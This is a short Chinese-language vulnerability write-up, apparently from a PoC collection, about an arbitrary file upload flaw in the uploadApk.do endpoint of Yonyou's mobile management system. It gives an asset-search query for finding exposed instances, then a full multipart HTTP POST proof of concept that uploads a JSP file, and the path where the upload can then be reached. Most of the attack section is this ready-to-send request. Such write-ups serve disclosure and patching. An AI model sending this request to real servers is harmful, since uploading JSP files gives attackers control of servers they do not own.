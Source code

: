 # 用友 移动管理系统 uploadApk.do 任意文件上传漏洞

## 漏洞描述

用友 移动管理系统 uploadApk.do 接口存在任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

用友 移动管理系统

## 网络测绘

```
app="用友-移动系统管理"
```

## 漏洞复现

登陆页面

![image-20230828164047741](images/image-20230828164047741.png)

验证POC

```
POST /maportal/appmanager/uploadApk.do?pk_obj= HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvLTG6zlX0gZ8LzO3
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cookie: JSESSIONID=4ABE9DB29CA45044BE1BECDA0A25A091.server
Connection: close

------WebKitFormBoundaryvLTG6zlX0gZ8LzO3
Content-Disposition: form-data; name="downloadpath"; filename="a.jsp"
Content-Type: application/msword

hello
------WebKitFormBoundaryvLTG6zlX0gZ8LzO3--
```

![image-20230828164101589](images/image-20230828164101589.png)

```
/maupload/apk/a.jsp
```

